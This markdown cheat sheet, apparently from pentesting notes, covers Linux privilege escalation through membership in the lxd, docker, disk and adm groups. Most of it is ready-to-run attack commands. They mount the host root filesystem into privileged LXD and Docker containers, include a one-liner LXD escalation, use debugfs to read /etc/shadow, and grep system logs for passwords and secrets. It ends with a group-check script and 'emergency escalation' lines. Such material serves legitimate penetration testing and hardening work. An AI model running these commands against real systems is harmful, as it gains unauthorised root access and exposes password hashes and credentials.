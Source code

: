 # 👑 Privileged Groups

## 🎯 Overview

Certain Linux groups provide elevated privileges that can be exploited for privilege escalation through container access, disk manipulation, or administrative file access.

## 🐳 High-Risk Groups

### LXD Group
**Impact**: Container root = host root
```bash
# Check membership
id | grep lxd

# Create privileged container
lxd init  # Use defaults
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh

# Access host filesystem as root
cd /mnt/root/root
```

### Docker Group
**Impact**: Host filesystem access via containers
```bash
# Check membership
id | grep docker

# Mount host filesystem
docker run -v /:/mnt -it ubuntu
cd /mnt/root  # Host root directory
```

### Disk Group
**Impact**: Raw device access
```bash
# Check membership
id | grep disk

# Access filesystem directly
debugfs /dev/sda1
# In debugfs: cat /etc/shadow
```

### ADM Group
**Impact**: Log file access
```bash
# Check membership
id | grep adm

# Read all system logs
find /var/log -readable 2>/dev/null
grep -r "password\|secret" /var/log/ 2>/dev/null
```

## 🚀 Quick Exploitation

### LXD Privilege Escalation
```bash
# One-liner container escalation (if alpine image exists)
lxc init alpine pwn -c security.privileged=true && lxc config device add pwn host disk source=/ path=/mnt/root recursive=true && lxc start pwn && lxc exec pwn /bin/sh
```

### Docker Escalation
```bash
# Mount host root
docker run -v /:/hostfs -it ubuntu bash
chroot /hostfs
```

### Other Dangerous Groups
```bash
# Video group - framebuffer access
id | grep video

# Audio group - audio device access  
id | grep audio

# Shadow group - /etc/shadow access
id | grep shadow

# Staff group - /usr/local write access
id | grep staff
```

## 🔍 Group Enumeration

### Check All User Groups
```bash
# Current user groups
id
groups

# All groups on system
cat /etc/group

# Group membership details
getent group lxd
getent group docker
getent group disk
getent group adm
```

### Privileged Group Detection Script
```bash
#!/bin/bash
echo "=== PRIVILEGED GROUPS CHECK ==="

dangerous_groups="lxd docker disk adm shadow staff video audio"

echo "[+] Current user groups:"
id

for group in $dangerous_groups; do
    if id | grep -q $group; then
        echo "[!] PRIVILEGED GROUP: $group"
        case $group in
            lxd) echo "    -> Container root access" ;;
            docker) echo "    -> Host filesystem access" ;;
            disk) echo "    -> Raw device access" ;;
            adm) echo "    -> Log file access" ;;
            shadow) echo "    -> Password hash access" ;;
        esac
    fi
done
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Check for dangerous group membership
id | grep -E "(lxd|docker|disk|adm|shadow)"

# LXD quick escalation
lxc image list  # Check for existing images
lxc list       # Check existing containers

# Docker quick escalation  
docker images  # Check available images
docker ps -a   # Check containers
```

### Emergency Escalation
```bash
# If in lxd group
lxc exec container_name /bin/sh

# If in docker group
docker run -v /:/mnt -it ubuntu

# If in disk group
debugfs /dev/sda1

# If in adm group
find /var/log -readable | head -10
```

---

*Privileged group membership often provides immediate privilege escalation paths - container access, disk manipulation, and administrative file access can lead directly to root privileges.* 
